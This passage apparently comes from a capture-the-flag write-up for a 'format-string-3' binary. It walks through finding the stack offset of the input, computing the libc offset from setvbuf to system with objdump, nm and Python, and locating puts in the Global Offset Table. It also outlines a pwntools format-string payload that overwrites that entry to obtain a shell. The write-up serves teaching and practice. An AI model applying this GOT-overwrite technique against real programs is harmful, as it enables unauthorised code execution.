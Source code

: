 
- The input is on 33th of the stack but in 64-bit the first 5 places of the stack are registers.

- Thus the stack position of user input is on 38th.

2. Calculate the offset between `setvbuf` function and `system` function in libc.

- Get the address of `setvbuf` and `system` in libc using `objdump` or `nm`.

  - Using `objdump`:
```terminal
$ objdump -T libc.so.6 | grep setvbuf
000000000007a3f0  w   DF .text  0000000000000260  GLIBC_2.2.5 setvbuf
$ objdump -T libc.so.6 | grep system
000000000004f760  w   DF .text  000000000000002d  GLIBC_2.2.5 system
```

  - Using `nm`:
```terminal
$ nm -D libc.so.6 | grep setvbuf
000000000007a3f0 W setvbuf@@GLIBC_2.2.5
$ nm -D libc.so.6 | grep system 
000000000004f760 W system@@GLIBC_2.2.5
```
- Thus the address of `setvbuf` is `0x7a3f0` and address of `system` is `0x4f760`.

- Note that these address are just from libc, when the program run, libc is placed on a random memory.

- Simply find their offset with the help of `python`.

```terminal
$ python
>>> 0x4f760-0x7a3f0
-175248
```

- Thus the address of `system` is 175248 before `setvbuf`.

3. Determine the address of `puts` in the Global Offset Table.

```terminal
$ objdump -D format-string-3| grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
```

4. Crafting payload using Python and `pwntools`.

- Revise back the important info we have:
  - `hello` function leaks the address of `setvbuf`.
  - User input is on 38th of stack.
  - Offset of `setvbuf` and `system` is 175248. 
  - The address of `puts` in Global Offset Table is `0x404018`.

- Draft the process of python code:
  - Run the program.
  - Get the leaked `setvbuf` address.
  - Calculate `system` address using the leaked `setvbuf` address and the offset.
  - Craft the payload using `fmtstr_payload()` function.
  - Send the payload and get the shell access.
